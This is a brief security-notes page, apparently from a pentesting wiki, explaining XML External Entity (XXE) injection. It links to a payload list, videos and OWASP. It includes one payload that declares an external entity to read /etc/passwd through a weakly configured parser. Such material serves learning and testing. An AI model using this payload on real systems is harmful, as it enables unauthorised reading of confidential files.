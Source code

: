 # External Entity Injection (XXE)

> An _XML External Entity_ attack is a type of attack against an application that parses XML input. This attack occurs when XML input containing a reference to an external entity is processed by a weakly configured XML parser. This attack may lead to the disclosure of confidential data, denial of service, server side request forgery, port scanning from the perspective of the machine where the parser is located, and other system impacts.

### Payloads

#### Basic XML Examples

```markup
<!--?xml version="1.0" ?-->
<userInfo>
 <firstName>Parz</firstName>
 <lastName>ival</lastName>
</userInfo>
```

Read a file:

```markup
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY parzival SYSTEM "file:///etc/passwd"> ]>
<data>&parzival;</data>
```

{% embed url="https://github.com/payloadbox/xxe-injection-payload-list" %}

### Introductions to XXE

{% embed url="https://www.youtube.com/watch?v=0DQnWalxYb4" %}

{% embed url="https://www.youtube.com/watch?v=Jo7qG8VcTeA" %}

{% embed url="https://www.youtube.com/watch?v=aSiIHKeN3ys" %}

### References

{% embed url="https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing" %}
